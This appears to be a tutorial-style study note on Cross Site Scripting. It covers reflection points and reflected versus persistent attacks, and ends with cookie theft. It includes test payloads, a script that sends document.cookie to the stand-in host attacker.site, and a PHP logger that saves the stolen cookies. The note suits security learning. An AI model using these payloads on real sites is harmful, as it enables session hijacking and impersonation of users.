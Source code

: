 # Cross Site Scripting

Cross Site Scripting (XSS) is a vulnerability that lets an attacker control some of the content of a web application

By exploiting a XSS, the attacker can target the web app users

An attacker can:

* Modify the content of the site at run-time
* Inject malicious contents
* Steal the cookies, thus the session, of a user
* Perform actions on the web app as if it was a legitimate user
* And much more

XSS vulnerabilities happen when a web app uses unfiltered user input to build the output content displayed to its users

This lets an attacker control the output HTML and JS code, thus attacking the app users

User input is any parameter coming from the client side of the web app such as:

* Request headers
* Cookies
* Form inputs
* POST parameters
* GET parameters

Such inputs should be validated server side by well-implemented security functions that should sanitize or filter users' input

{% hint style="danger" %}
Never, ever, trust user input!
{% endhint %}

Most of the time, victims of XSS attacks are the users/visitors of a site (could even be an admin)

XSS involves injecting malicious code into the output of a web page, which is then rendered (or executed) by the browser of the visiting users

It can be really hard to notice an attack in progress because most of the time, attacks are very subtle and do not involve any visible change to the vulnerable site

Attackers user XSS to attack the users of a website by:

* Making their browsers load malicious content
* Performing operations on their behalf, like buying a product or changing a password
* Stealing their session cookies, thus being able to impersonate them on the site

## Finding an XSS

You have to look at every user input, and test if it is somehow displayed on the output of the web application

![A search parameter is submitted through a form and gets displayed on the output (Reflection point). Searched string is passed through a GET parameter](<../../../../.gitbook/assets/image (6) (1) (1).png>)

After finding a reflection point, you have to understand if you can inject HTML code and see if it somehow gets to the output of the page; this lets you control the output page

Looking at the HTML sources of the output page helps to understand how to build an XSS payload

![](<../../../../.gitbook/assets/image (4) (1).png>)

![The injected \<i> tag outputted "test string" in italics so the HTML has been interpreted](<../../../../.gitbook/assets/image (14) (1) (1) (1).png>)

To test the XSS, you can inject some valid HTML/JS code like:

```javascript
<script>alert('XSS')</script>
```

Although according to this video, we should be mindful when doing that

{% embed url="https://www.youtube.com/watch?t=73s&v=KHwVjzWei1c" %}

To exploit an XSS vulnerability, you need to know the type of XSS attack you are carrying out: reflected, persistent or DOM based

## Reflected XSS Attacks

Happen when the malicious payload is carried **inside the request** that the browser of the victim sends to the vulnerable website

Triggered by posting a link on a social network or via a phishing campaign. When users click on the link, they trigger the attack

Some browsers like Chrome have a reflected XSS filter built in so they will not run some XSS reflected attacks

![](<../../../../.gitbook/assets/image (18) (1) (1) (1).png>)

However, they can only filter trivial and known XSS attacks since there are advanced methods that can bypass anti-XSS filters

## Persistent XSS Attacks

Cannot be blocked by Anti-XSS filters

Occur when the payload is sent to the vulnerable web server and then **stored**.&#x20;

* When a web page of the vulnerable website pulls the stored malicious code and puts it within the HTML output, it will deliver the XSS payload.

Malicious code gets delivered each and every time a web browser hits the "injected" web page.

The most common vector for persistent attacks are HTML forms that submit content to the web server and then display that content back to the users

* Elements like comments, user profiles, and form posts are a potential vector for attacks

Example: If an attacker manages to inject a malicious script in a forum post, every person opening that post will run the script; this, for example, could let an attack silently steal visitors' cookies and impersonate them without even knowing their login credentials



## Cookie Stealing via XSS

JS can access cookies if they do not have the HttpOnly flag enabled

In many cases, stealing a cookie means stealing a user session

For example, you can display the current cookies using:

```javascript
<script>alert(document.cookie)</script>
```

![](<../../../../.gitbook/assets/image (5) (1) (1) (1).png>)

This code sends cookie content to an attacker-controlled site

```javascript
<script>
var i = new Image();
i.src="http://attacker.site/log.php?q="+document.cookie;
</script>
```

The script generates an image object and prints its `src` to a script on the attacker's server

The browser cannot tell in advance if the source is a real image, so it loads and executes the script, even without displaying any image which means the cookie is actually sent to the attacker.site

```php
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename, 'a');
$cookie=$_GET['q'];
fwrite($fp, $cookie);
fclose($fp);
?>
```

The `log.php` script saves the cookie in a text file on the attacker.site
